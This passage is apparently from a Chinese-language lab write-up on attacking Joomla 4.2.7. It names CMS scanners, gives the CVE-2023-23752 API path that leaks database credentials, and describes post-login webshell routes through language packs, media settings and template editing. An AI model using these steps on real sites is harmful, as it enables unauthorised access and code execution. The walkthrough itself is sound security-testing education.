[https://github.com/OWASP/joomscan](https://github.com/OWASP/joomscan)

### cmsmap

cmsmap 是一款实用 python 开发的跨平台 cms 扫描工具 支持扫描 WordPress、Joomla,、Drupal、Moodle  
[https://github.com/dionach/CMSmap](https://github.com/dionach/CMSmap)  
cmsmap 实用 exploitdb 进行扫描 建议在 kali 等自带 exploitdb 的操作系统上使用 如果没有 也可以使用官方 exploitdb  
[Exploit-DB / Exploits + Shellcode + GHDB · GitLab](https://gitlab.com/exploit-database/exploitdb)

## 2.2 getshell 测试案例

Joomla 这类 cms 前台 getshell 的漏洞极少 即使存在也有苛刻的利用条件  
通过 cvedetails 网站查找所有与 remote code execute 相关的漏洞只有寥寥几个，并且都是远古版本  
遂，本文只演示最近的 cve-2023-23752，一个利用条件较为苛刻的 RCE

### Joomla! CVE-2023-23752 to Code Execution

这个漏洞本质在于对 api 的不当访问控制检查，这将允许未经授权的用户访问敏感信息或功能。  
影响范围：4.0.0-4.2.7 本文所搭建的 4.2.7 处于影响范围内  
exp：/api/index.php/v1/config/application?public=true  
这个 api 由于不恰当的鉴权 泄漏了数据库的账号密码  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706791000557-f0460e7f-4096-4ab5-9d5a-a77313befaf3.png#averageHue=%23dfdfdf&clientId=u4c24c366-932c-4&from=paste&height=706&id=u8b97a828&originHeight=1412&originWidth=3092&originalType=binary&ratio=2&rotation=0&showTitle=false&size=432749&status=done&style=none&taskId=u003f1a13-0077-4bf1-9642-afe2905da48&title=&width=1546)  
若服务器开放了数据库端口 3306 则可以通过数据库进行漏洞利用 思路为更改 users 表 password 字段帮助我们进入后台 那么下文将演示 Joomla！后台 getshell 的常见方式

#### 语言包 getshell

在官网下载语言包进行修改 我们只需要在/zh-CN\_joomla\_lang\_full\_4.2.0v1 2/administrator/zh-CN/下放入 shell 后重新打包 zip 通过上传文件安装扩展  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706793181161-da5bdf04-ecaa-4cee-97b8-d94e582ae5ba.png#averageHue=%23d7e2d9&clientId=u4c24c366-932c-4&from=paste&height=890&id=u2a4cf3a6&originHeight=1780&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=327664&status=done&style=none&taskId=u03829149-82b8-4db1-a9d7-b1be1269eb4&title=&width=1547)  
随后访问/administrator/language/zh-CN/shell.php 即可 getshell 以 phpinfo 为例  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706793020457-8a74bf3a-db92-4a8d-9edf-940db784f363.png#averageHue=%2394c485&clientId=u4c24c366-932c-4&from=paste&height=936&id=uc5cfee2b&originHeight=1872&originWidth=2506&originalType=binary&ratio=2&rotation=0&showTitle=false&size=569143&status=done&style=none&taskId=u7374117c-db0f-4b5c-bdfc-f64bb2331e5&title=&width=1253)

#### 媒体文件 getshell

在后台 -> 全局配置 -> 媒体文件中将 php 添加到允许的扩展  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706793081592-412c1243-a494-4b43-adc2-efd54a88bde9.png#averageHue=%23467b3c&clientId=u4c24c366-932c-4&from=paste&height=888&id=u6db46f3a&originHeight=1776&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=482756&status=done&style=none&taskId=u1b8a5d25-e9cf-41a4-88a7-69ff3775eb9&title=&width=1547)  
这里可能有版本限制 4.2.7 版本疑似做了安全限制 上传 shell 后返回了 400 的错误

```plain
192.168.237.1 - - [01/Feb/2024:13:21:54 +0000] 
"POST /administrator/index.php?option=com_media&format=json
&mediatypes=0,1,2,3&task=api.files&path=local-images%3A%2Fbanners 
HTTP/1.1" 400 260 
"http://localhost:18081/administrator/index.php?option=com_media&path=local-images:/banners" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36"
```

#### 模板编辑 getshell

在后台编辑模板，在模板 error.php 文件中插入 shell  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706793908994-11151d33-f4b7-4c56-9c56-f9b6016bcdef.png#averageHue=%23bd8763&clientId=u4c24c366-932c-4&from=paste&height=890&id=ue50f8eb8&originHeight=1780&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=503734&status=done&style=none&taskId=u0fd2f5da-7483-4ec9-aa6d-e7841b81d83&title=&width=1547)  
随后访问模板对应的 error.php 完成 getshell  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706793954359-4c3e7d93-b412-4418-9c29-7e687d81d044.png#averageHue=%2389c37c&clientId=u4c24c366-932c-4&from=paste&height=932&id=u9712722a&originHeight=1864&originWidth=2256&originalType=binary&ratio=2&rotation=0&showTitle=false&size=552555&status=done&style=none&taskId=uc43445bb-f3e3-4829-99ed-d72c9f27c26&title=&width=1128)
